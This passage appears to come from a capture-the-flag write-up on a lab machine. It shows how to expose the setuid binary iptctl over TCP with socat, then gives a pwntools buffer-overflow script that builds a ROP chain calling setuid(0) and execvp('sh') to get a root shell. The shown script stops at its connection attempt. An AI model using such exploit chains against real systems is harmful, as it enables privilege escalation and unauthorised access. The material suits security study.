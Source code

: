 
I’ll make use of `setuid` as well.

#### Interaction

It can sometimes be a pain to interact with a binary like `iptctl` that is
sending prompts and looking for input on stdin. I could use `pwntools`, but
that won’t be installed on the target system. But socat is on the target
system. So I’ll use `socat` to listen on a socket and have that interact with
the program. Then, I can connect from my host and use `pwntools` to get a
shell.

`socat` [takes two multidirectional byte streams and connects
them](https://linux.die.net/man/1/socat). The two parameters are the two
streams, like this:

    
    
    socat TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i"
    

This defines the first stream as listening on TCP 9001. The second stream is
the program running in interactive mode.

Now I can set the target of my exploit to 10.10.10.113:9001, and run it.

#### Exploit

All of that adds up to:

    
    
      1 #!/usr/bin/env python
      2 # on redcross setup iptctl with socat listening on 9001
      3 # socat TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i"
      4 
      5 from pwn import *
      6 
      7 
      8 # addresses
      9 execvp  = p64(0x400760) # execve plt
     10 setuid  = p64(0x400780) # setuid plt
     11 pop_rdi = p64(0x400de3) # pop rdi; ret
     12 pop_rsi = p64(0x400de1) # pop rsi; pop r15; retd
     13 sh_str  = p64(0x40046e) # "sh"
     14 
     15 #setup payload
     16 payload = "allow" +("A"*29)
     17 
     18 # setuid(0)
     19 payload += pop_rdi
     20 payload += p64(0)
     21 payload += setuid
     22 
     23 # execvp("sh", 0)
     24 payload += pop_rdi
     25 payload += sh_str
     26 payload += pop_rsi
     27 payload += p64(0)
     28 payload += p64(0)
     29 payload += execvp
     30 
     31 payload += "\n7.8.8.9\n"
     32 
     33 log.info("Attempting to connect")
     34 try:
     35     p = remote("10.10.10.113",9001)
     36 except pwnlib.exception.PwnlibException:
     37     log.warn("Could not connect to target")